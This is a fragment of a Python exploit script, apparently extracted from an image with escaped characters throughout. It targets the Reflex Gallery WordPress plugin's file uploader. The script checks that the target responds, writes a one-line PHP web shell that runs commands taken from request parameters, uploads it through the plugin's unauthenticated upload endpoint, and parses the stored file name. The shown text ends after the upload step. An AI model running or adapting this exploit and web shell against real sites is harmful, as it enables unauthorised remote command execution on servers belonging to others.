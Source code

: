 banner\(\)
url = args\.url

# Check if target is live
time\.sleep\(0\.2\)
print\(c\.BLUE \+ "\[" \+ c\.YELLOW \+ "\*" \+ c\.BLUE \+ "\] Checking connection with target\.\.\." \+ c\.END\)
checker = requests\.get\(url, timeout=10\)
time\.sleep\(0\.4\)

if checker\.status\_code \!= 404 and checker\.status\_code \!= 500:
print\(c\.BLUE \+ "\[" \+ c\.YELLOW \+ "\+" \+ c\.BLUE \+ "\] Connection established successfully" \+ c\.END\)
else:
print\(c\.BLUE \+ "\[" \+ c\.RED \+ "\-" \+ c\.BLUE \+ "\] Connection refused, exiting" \+ c\.END\)
sys\.exit\(0\)

try:
os\.remove\("exploit\-shell\.php"\)
except:
pass

# Create webshell file
shell = open\("exploit\-shell\.php", "w"\)
shell\.write\("\<?php system\($\_REQUEST\['cmd'\]\); ?\>"\)
shell\.close\(\)

# Define file content
file = \{"qqfile": open\("exploit\-shell\.php", "r"\)\}

if not url\.endswith\("/"\):
url = url \+ "/"

# Upload file
time\.sleep\(0\.3\)
print\(c\.BLUE \+ "\[" \+ c\.YELLOW \+ "\*" \+ c\.BLUE \+ "\] Uploading malicious file\.\.\." \+ c\.END\)
r = requests\.post\(url \+ "wp\-content/plugins/reflex\-gallery/admin/scripts/FileUploader/php\.php?Year=2023\&Month=09", files=file\)
uploaded\_name = re\.findall\(r'"fileName":"\(\.\*?\)"', r\.text\)\[0\]\.split\("/"\)\[\-1\]
time\.sleep\(0\.6\)

if uploaded\_name \!= "" and "true" in r\.text:
print\(c\.BLUE \+ "\[" \+ c\.YELLOW \+ "\+" \+ c\.BLUE \+ "\] File uploaded successfully" \+ c\.END\)
time\.sleep\(0\.3\)

try:
os\.remove\("exploit\-shell\.php"\)
except:
pass
